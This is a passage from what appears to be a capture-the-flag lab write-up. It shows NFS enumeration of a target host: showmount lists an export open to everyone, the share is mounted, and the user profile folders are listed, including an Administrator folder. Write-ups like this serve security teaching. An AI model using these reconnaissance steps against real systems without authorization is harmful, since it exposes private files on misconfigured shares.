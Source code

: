 2049/tcp open  nfs its interesting

    ➜  cicada showmount -e 10.10.96.219
    Export list for 10.10.96.219:
    /profiles (everyone)

grab folder

    ➜  cicada mount -t nfs 10.10.96.219:/profiles profiles

files

    ➜  profiles ls -la *
    Administrator:
    total 1461
    drwxrwxrwx+ 2 nobody nogroup      64 Sep 15 09:25 .
    drwxrwxrwx+ 2 nobody nogroup    4096 Sep 15 09:18 ..
    drwx------+ 2 nobody nogroup      64 Sep 15 09:25 Documents
    -rwxrwxrwx+ 1 nobody nogroup 1490573 Sep 13 12:12 vacation.png

    Daniel.Marshall:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:29 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..

    Debra.Wright:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:29 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..

    Jane.Carter:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:30 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..

    Jordan.Francis:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:29 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..

    Joyce.Andrews:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:29 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..

    Katie.Ward:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:29 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..

    Megan.Simpson:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:29 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..

    Richard.Gibbons:
    total 5
    drwxrwxrwx+ 2 nobody nogroup   64 Sep 13 11:29 .
    drwxrwxrwx+ 2 nobody nogroup 4096 Sep 15 09:18 ..
